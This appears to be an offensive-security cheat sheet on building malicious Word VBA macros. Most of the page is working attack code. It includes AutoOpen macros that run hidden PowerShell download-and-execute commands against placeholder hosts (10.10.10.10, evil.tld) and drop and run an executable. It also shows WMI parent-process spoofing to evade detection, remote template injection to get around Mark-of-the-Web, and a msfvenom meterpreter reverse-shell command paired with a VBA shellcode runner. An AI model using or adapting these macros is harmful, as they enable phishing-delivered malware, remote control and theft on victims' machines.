

# Visual Basic for Applications (VBA) Macro

VBA is an implementation of Visual Basic that is very widely used with Microsoft Office applications - often used to enhance or augment functionality in Word and Excel for data processing etc. 

VBA is not all that different from VBScript, so it's not too difficult to use the `wscript.shell object`.


> **Note**: The file must be saved in `.doc` format due inside `.docx` files cannot save macros.

To create a macro go to `View -> Macros` and create one.



> **Note**: It's important to select the document in order to save the macro inside.

```vb
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```


> **Note**: To force the macro to trigger automatically when the document is opened, use the name`AutoOpen()`.

## Executing a Powershell Payload

```vb
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""

End Sub
```

## Enumeration with Environ function

```vb
Sub Enum()

    Dim username
    Dim hostname
    
    username = Environ("username")
    hostname = Environ("computername")
    MsgBox username + "||" + hostname

End Sub
```


# Changing Prent-Child Relationship

When a powershell is executed from a word macro a child `powershell.exe` process is created from `winword.exe` (MS Word as a Parent). This isn't normal behaviour and highly suspicious.

With `wmi` we can create another parent process and append the powershell to wmi and not to the MS Word.


```VB
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```


> **OPSEC Note**: In that case, powershell will be a child of `WmiPrvSE.exe` rather than MS Word.


## Remote Template Injection


Microsoft Word has the option of creating a new document from a template. Office has some templates pre-installed. Remote template injection is a technique where an attacker sends a benign document to a victim, which downloads and loads a malicious script.

* Create a word add a macro and save it as `Word 97-2003 Template (.dot)`. This will be out malicious remote template, and we can also host this file.
* Next, create a new document from the blank template located in `C:\Users\User\Documents\Custom Office Templates`. Add any content and save it as `.docx`.
* Browse to the directory in explorer, right-click and select `7-zip -> Open Archive`. Navigate to `word -> _rels`, right-click on `settings.xml.rels` and select Edit. Change the Target entry and specify out hosted template.

```
Target="http://10.10.10.10/template.dot"
```
This will allow to execute the macro even if its flagged with MOTW.


# Downloading and executing a file

There are different ways to execute a binary.

```vb
Sub Docuemnt_Open()
  Benjugat()
End Sub

Sub Autopen()
  Benjugat()
End Sub

Sub BenJugat()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://evil.tld/dropper.exe', 'dropper.exe')"
  Shell str, vbHide
  Dim exePath As String
  exePath = ActiveDocument.Path + "\dropper.exe"
  Wait (2)
  Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
  Dim t As Date
  t = Now
  Do
    DoEvents
  Loop Until Now >= DateAdd("s",n,t)
End Sub
```

```vb
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell Invoke-WebRequest -uri 'http://evil.tld/dropper.exe' -outfile 'c:\users\benjugat\downloads\dropper.exe'"
    Shell str, vbHide
    Dim exePath As String
    exePath = "c:\users\benjugat\downloads\dropper.exe"
    Wait (10)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

# Usage of WinAPIs in vba

It's important to declare first the WINAPI on the beggining of the vba.

```vb
Private Declare PtrSafe Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Function MyMacro()
  Dim res As Long
  Dim MyBuff As String * 256
  Dim MySize As Long
  Dim strlen As Long
  MySize = 256
  
  res = GetUserName(MyBuff, MySize)
  strlen = InStr(1, MyBuff, vbNullChar) - 1
  MsgBox Left$(MyBuff, strlen)
End Function
```

Another example:

```vb
Private Declare PtrSafe Function GetPhysicallyInstalledSystemMemory Lib "kernel32.dll" (ByRef TotalMemoryInKilobytes As Long) As Long

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Function MyMacro()
  Dim res As Long
  Dim TotalMemoryInKilobytes As Long
  
  res = GetPhysicallyInstalledSystemMemory(TotalMemoryInKilobytes)

  MsgBox (TotalMemoryInKilobytes)
End Function
```

## VBA shellocde Runner

First we need to generate our payload

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f vbapplication
```

And our vba should be something like that:

```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As LongPtr
  
    buf = Array(252, 72, 131, 229.....)
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
    

End Function
```